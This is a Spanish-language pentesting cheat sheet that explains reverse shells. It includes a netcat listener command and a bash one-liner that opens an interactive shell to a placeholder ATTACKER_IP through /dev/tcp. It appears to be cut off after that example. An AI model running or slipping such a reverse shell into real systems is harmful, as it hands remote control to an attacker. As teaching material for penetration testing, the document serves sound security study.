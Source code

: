 # 🐚 Reverse Shell Cheat Sheet

Guía rápida para comprender, generar y utilizar reverse shells en entornos de pentesting.

---

## 📚 Tabla de contenidos

- [¿Qué es una reverse shell?](#qué-es-una-reverse-shell)
- [Proceso típico](#proceso-típico)
- [Ejemplo de reverse shell en Bash](#ejemplo-de-reverse-shell-en-bash)
- [Reverse shell: procedimiento práctico](#reverse-shell-procedimiento-práctico)
- [Recursos para encontrar o generar reverse shells](#recursos-para-encontrar-o-generar-reverse-shells)
- [Tips y buenas prácticas](#tips-y-buenas-prácticas)
  - [Uso de `bash -c`](#uso-de-bash--c)
  - [Envío de reverse shell a través de una URL (URL encoding)](#envío-de-reverse-shell-a-través-de-una-url-url-encoding)
- [Recomendaciones adicionales](#recomendaciones-adicionales)
-  [Subir reverse en PHP (si la página permite subida de archivos)](#subir_reverse)

---

## 🎭 ¿Qué es una reverse shell?

Una **reverse shell** es una técnica utilizada principalmente en **pruebas de penetración (pentesting)** para obtener acceso remoto a un sistema comprometido.  
Permite al atacante controlar el sistema víctima mediante una conexión saliente desde la víctima hacia el atacante.  
De esta forma se pueden evadir restricciones de firewall que bloquean conexiones entrantes.

---

## 🔄 Proceso típico

1. El atacante configura un servidor a la escucha (por ejemplo, con `nc -lvp 4444` o herramientas como Metasploit).
2. El atacante logra ejecutar código en la víctima (por ejemplo, mediante una inyección o exploit).
3. Ese código en la víctima abre una conexión de red hacia el atacante (por ejemplo, a la IP del atacante en el puerto 4444) y redirige la shell a través de esa conexión.
4. El atacante recibe un **prompt de shell** interactivo de la máquina víctima.

---

## 🖥️ Ejemplo de reverse shell en Bash

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---
